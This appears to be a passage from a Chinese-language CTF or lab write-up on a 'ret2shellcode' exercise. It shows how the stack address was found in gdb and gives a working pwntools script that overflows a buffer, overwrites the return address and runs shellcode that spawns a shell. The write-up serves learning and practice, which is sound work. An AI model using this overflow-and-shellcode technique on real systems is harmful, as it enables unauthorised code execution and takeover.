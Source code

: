 ![image-20230415135735932](./README.assets/image-20230415135735932.png)

通过pwntools实例化进程并且调用gdb在func()函数插入断点，多次测试确认对战随机化已经关闭之后获取EBP为0xffffce88，按照之前的手画栈结构图，目标返回值的地址应该是当前的EBP加上16个字节，也就是0xffffce9c，修改目标地址后使用下面的代码进行测试：

```python
from pwn import *


context.arch = "i386"
context.os = "linux"
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
context.log_level='debug'

pwn_obj = gdb.debug("./ret2shellcode", "b puts")
target_addr = 0xffffce9c
payload = b"#" * 112 + p32(target_addr) + b"#" * 12 + asm(shellcraft.sh())
pwn_obj.sendline(payload)
pwn_obj.interactive()
```
